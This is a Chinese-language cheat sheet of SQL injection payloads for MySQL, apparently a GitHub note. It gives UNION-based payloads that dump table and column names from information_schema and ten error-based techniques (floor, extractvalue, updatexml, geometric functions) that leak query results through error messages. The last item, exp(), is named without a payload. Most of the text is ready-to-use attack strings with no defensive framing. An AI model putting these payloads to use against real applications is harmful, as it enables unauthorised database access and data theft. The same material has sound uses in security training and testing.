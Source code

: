 # 基础注入

## 联合查询

- 若前面的查询结果不为空，则返回两次查询的值：
- 若前面的查询结果为空，则只返回union查询的值：

- 关键字`union select`
- 需要字段数对应

```sql
常用Payload：

# 查询表名
' union select group_concat(table_name) from information_schema.tables where table_schema=database()%23
# 查询字段名
' union select group_concat(column_name) from information_schema.columns where table_name='table1'%23
```

## 报错注入

报错注入是利用mysql在出错的时候会引出查询信息的特征，常用的报错手段有如下10种：

```sql
# 修改select user() 字段 获取不同的信息

# 1.floor()
select * from test where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);

# 2.extractvalue()
select * from test where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));

# 3.updatexml()
select * from test where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));

# 4.geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));

# 5.multipoint()

select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));

6.polygon()

select * from test where id=1 and polygon((select * from(select * from(select user())a)b));

7.multipolygon()

select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));

8.linestring()

select * from test where id=1 and linestring((select * from(select * from(select user())a)b));

9.multilinestring()

select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));

10.exp()
```